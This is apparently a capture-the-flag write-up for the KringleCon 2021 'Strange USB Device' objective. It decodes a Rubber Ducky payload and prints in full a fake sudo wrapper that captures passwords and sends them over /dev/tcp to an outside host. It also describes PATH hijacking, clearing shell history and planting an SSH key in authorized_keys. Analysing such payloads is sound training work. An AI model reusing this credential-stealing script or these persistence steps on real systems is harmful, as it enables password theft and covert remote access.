



# Strange USB Device

**Difficulty**: :fontawesome-solid-star::fontawesome-solid-star::fontawesome-regular-star::fontawesome-regular-star::fontawesome-regular-star:<br/>
**Direct link**: [ducky terminal](https://docker2021.kringlecon.com/?challenge=ducky&id=0b50ffba-320c-4ef4-bd54-9c68faf91628)<br/>
**Terminal hint**: [IPv6 Sandbox](../hints/h5.md)


## Objective

!!! question "Request"
    Assist the elves in reverse engineering the strange USB device. Visit Santa's Talks Floor and hit up Jewel Loggins for advice.

??? quote "Morcel Nougat"
    Hello and welcome to the speaker _Un_Preparedness Room!<br/>
    I'm Morcel Nougat, elf extraordinaire.<br/>
    I've heard the talks at the other con across the way are a bit... *off*.<br/>
    I really don't think they have the right sense about what makes for a wonderful holiday season. But, anyway!<br/>
    Say, do you know anything about USB Rubber Duckies?<br/>
    I've been playing around with them a bit myself.<br/>
    Please see what you can do to help solve the Rubber Ducky Objective!<br/>
    Oh, and if you need help, I hear Jewel Loggins, on this floor outside this room, has some experience.


## Hints

??? hint "Ducky Script"
    [Ducky Script](https://docs.hak5.org/hc/en-us/articles/360010555153-Ducky-Script-the-USB-Rubber-Ducky-language) is the language for the USB Rubber Ducky.

??? hint "Ducky RE with Mallard"
    It's also possible the reverse engineer encoded Ducky Script using [Mallard](https://github.com/dagonis/Mallard).

??? hint "Mitre ATT&CK and Ducky"
    The [MITRE ATT&CK tactic T1098.004](https://attack.mitre.org/techniques/T1098/004/) describes SSH persistence techniques through authorized keys files.

??? hint "Duck Encoder"
    Attackers can encode Ducky Script using a [duck encoder](https://docs.hak5.org/hc/en-us/articles/360010471234-Writing-your-first-USB-Rubber-Ducky-Payload) for delivery as `inject.bin`.


## Solution

??? abstract "Welcome message"
    ```
    A random USB device, oh what could be the matter?
    It seems a troll has left this, right on a silver platter.
    Oh my friend I need your ken, this does not smell of attar.
    Help solve this challenge quick quick, I shall offer no more natter.

    Evaluate the USB data in /mnt/USBDEVICE.
    ```

Follow the instructions in the welcome message and list the contents of the `/mnt/USBDEVICE` to find an encoded `inject.bin` Ducky Script file. We can decode the script using [Mallard](https://github.com/dagonis/Mallard) which is availabe in our home folder as `mallard.py`.



Running `python mallard.py --file /mnt/USBDEVICE/inject.bin` prints out the original [Ducky Script commands](../artifacts/objectives/o5/ducky_script.txt).



The script creates a `~/.config/sudo` folder containing a malicious `sudo` script. When executed, the script requests a password (lines 3-4) and uses the value as input for the legitimate `sudo` tool to verify the password is correct (line 6). Regardless if the password is valid or not the data is then sent to `trollfun.jackfrosttower.com` on TCP port 1337 (lines 9 and 13). If the password is incorrect, the script is run again (lines 10-11). If the password is correct it's passed to the legitimate `sudo` tool (line 14).

!!! example "~/.config/sudo/sudo"
    **Note**: the malicious `sudo` script appears to contain a few errors, starting with the [shebang](https://en.wikipedia.org/wiki/Shebang_(Unix)) line which includes a redundant output redirect statement. The script also starts by executing the legitimate `/usr/bin/sudo` command on line 2, followed by a `read` statement which will result in the user being asked for their password twice. Finally, there's a redundant `fi` statement on line 16 which will cause the script to fail.

    ```bash linenums="1"
    #!/bin/bash > ~/.config/sudo/sudo
    /usr/bin/sudo $@
    echo -n "[sudo] password for $USER: "
    read -s pwd
    echo
    echo "$pwd" | /usr/bin/sudo -S true 2>/dev/null
    if [ $? -eq 1 ]
    then
    echo "$USER:$pwd:invalid" > /dev/tcp/trollfun.jackfrosttower.com/1337
    echo "Sorry, try again."
    sudo $@
    else
    echo "$USER:$pwd:valid" > /dev/tcp/trollfun.jackfrosttower.com/1337
    echo "$pwd" | /usr/bin/sudo -S $@
    fi
    fi
    ```

Next, the `~/.config/sudo/sudo` script is made executable and the `$PATH` environment variable in both `~/.bash_profile` and `~/.bashrc` is updated to ensure that the `~/.config/sudo/` path takes precedence over any other configured paths. The last part of the Ducky Script reverses a string, Base64 decodes it, executes the decoded instructions via `bash`, and erases any shell history evidence by running `history -c` and deleting the `.bash_history` file.



 Manually reversing and Base64 decoding the string yields an `echo` statement which copies the SSH key for user `ickymcgoop@trollfun.jackfrosttower.com` into the `~/.ssh/authorized_keys` file, enabling easy SSH access to the host.

!!! done "Answer"
    ickymcgoop
